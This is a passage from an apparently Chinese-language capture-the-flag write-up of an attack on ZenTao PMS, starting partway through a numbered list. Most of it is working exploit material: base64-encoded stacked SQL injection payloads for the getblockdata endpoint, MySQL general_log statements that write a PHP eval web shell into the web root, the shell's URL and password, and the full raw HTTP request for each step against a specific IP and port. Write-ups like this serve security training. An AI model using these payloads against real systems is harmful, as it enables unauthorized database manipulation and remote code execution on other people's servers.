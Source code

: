     5. 将base64编码后的数据插入请求：http://118.193.36.37:10363/zentaopms/www/index.php%EF%BC%9Fm=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==
    6. 注：每一个请求中都需要手动添加refer字段：`Referer:http://118.193.36.37:10363/zentaopms/`
4. 获取webshell过程的payload如下：（采用的是日志写shell的方式）
    1. 开启日志：`set global general_log='on';` 
    2. 更改日志路径：`set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php';` 
    3. 注入shell语句：`select '<?php @eval($_POST[1])?>';` 
    4. 关闭日志:`set global general_log='off';`
5. 访问webshell获取flag：链接：http://118.193.36.37:10363/zentaopms/module/misc/ext/model/foo.php 密码：1

```php
//sleep（5）
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//开启日志：set global general_log='on'; 
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjczZDI3NmY2ZTI3M2I7UFJFUEFSRSBwb3JkIEZST00gQFNRTDtFWEVDVVRFIHBvcmQ7LS0gLSIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//更改日志路径：set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php'; 
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjc1ZjY2Njk2YzY1M2QyNzJmNzc3Nzc3MmY3YTY1NmU3NDYxNmY3MDZkNzMyZjZkNmY2NDc1NmM2NTJmNmQ2OTczNjMyZjY1Nzg3NDJmNmQ2ZjY0NjU2YzJmNjY2ZjZmMmU3MDY4NzAyNzNiO1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9 HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//注入shell语句：select '<?php @eval($_POST[1])?>';
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTZjNjU2Mzc0MjAyNzNjM2Y3MDY4NzAyMDQwNjU3NjYxNmMyODI0NWY1MDRmNTM1NDViMzE1ZDI5M2YzZTI3M2I7UFJFUEFSRSBwb3JkIEZST00gQFNRTDtFWEVDVVRFIHBvcmQ7LS0gLSIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//关闭日志:set global general_log='off';
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjczZDI3NmY2NjY2MjczYjtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/
```
